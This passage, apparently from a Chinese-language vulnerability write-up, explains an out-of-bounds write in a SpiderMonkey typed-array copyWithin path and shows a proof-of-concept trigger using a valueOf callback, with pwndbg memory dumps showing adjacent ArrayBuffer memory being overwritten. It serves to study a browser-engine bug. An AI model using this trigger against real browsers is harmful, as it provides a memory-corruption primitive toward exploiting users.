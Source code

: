 计算`to` 的时候`ToInteger(target);` 会先执行`ValueOf` 的代码， 完了`offset == 0x58 ; length == 0x8`, 后续的`MoveTypedArrayElements` 的读写会从`a[0x58]` 开始， 于是就有了越界。

测试一下

```
// 创建两个 ArrayBuffer， 他们内存布局上会相邻
js&gt; a=new ArrayBuffer(0x60);
js&gt; b=new ArrayBuffer(0x60);
js&gt; dumpObject(a)
object 0x7ffff7e85100 from global 0x7ffff7e85060 [global]
//...
js&gt; dumpObject(b)
object 0x7ffff7e851a0 from global 0x7ffff7e85060 [global]
//...........................
pwndbg&gt; x/40gx 0x7ffff7e85100
// a
0x7ffff7e85100: 0x00007ffff7e82880      0x00007ffff7ea9240
0x7ffff7e85110: 0x0000000000000000      0x000055555660c2e0
0x7ffff7e85120: 0x00003ffffbf428a0      0xfff8800000000060
0x7ffff7e85130: 0xfffc000000000000      0xfff8800000000000
0x7ffff7e85140: 0x0000000000000000      0x0000000000000000
0x7ffff7e85150: 0x0000000000000000      0x0000000000000000
0x7ffff7e85160: 0x0000000000000000      0x0000000000000000
0x7ffff7e85170: 0x0000000000000000      0x0000000000000000
0x7ffff7e85180: 0x0000000000000000      0x0000000000000000
0x7ffff7e85190: 0x0000000000000000      0x0000000000000000
// b
0x7ffff7e851a0: 0x00007ffff7e82880      0x00007ffff7ea9240
0x7ffff7e851b0: 0x0000000000000000      0x000055555660c2e0
0x7ffff7e851c0: 0x00003ffffbf428f0      0xfff8800000000060
0x7ffff7e851d0: 0xfffc000000000000      0xfff8800000000000
0x7ffff7e851e0: 0x0000000000000000      0x0000000000000000
0x7ffff7e851f0: 0x0000000000000000      0x0000000000000000


js&gt; test = new Uint8Array(a)                                                    
js&gt; hax = `{`valueOf: function()`{`test.offset = 0x58; return 0;`}``}`
js&gt; test.copyWithin(hax,0x20,0x28)                                                              
// 执行之后
pwndbg&gt; x/40gx 0x7ffff7e85100
// a
0x7ffff7e85100: 0x00007ffff7e82880      0x00007ffff7ea9240
0x7ffff7e85110: 0x0000000000000000      0x000055555660c2e0
0x7ffff7e85120: 0x00003ffffbf428a0      0xfff8800000000060
0x7ffff7e85130: 0xfffe7ffff3d003a0      0xfff8800000000000
0x7ffff7e85140: 0x0000000000000000      0x0000000000000000
0x7ffff7e85150: 0x0000000000000000      0x0000000000000000
0x7ffff7e85160: 0x0000000000000000      0x0000000000000000
0x7ffff7e85170: 0x0000000000000000      0x0000000000000000
0x7ffff7e85180: 0x0000000000000000      0x0000000000000000
                // offset == 0x58
0x7ffff7e85190: 0x0000000000000000      0x000055555660c2e0//&lt;==
// b
0x7ffff7e851a0: 0x00007ffff7e82880      0x00007ffff7ea9240
0x7ffff7e851b0: 0x0000000000000000      0x000055555660c2e0//&lt;===
0x7ffff7e851c0: 0x00003ffffbf428f0      0xfff8800000000060
0x7ffff7e851d0: 0xfffc000000000000      0xfff8800000000000
0x7ffff7e851e0: 0x0000000000000000      0x0000000000000000
0x7ffff7e851f0: 0x0000000000000000      0x0000000000000000
0x7ffff7e85200: 0x0000000000000000      0x0000000000000000
```
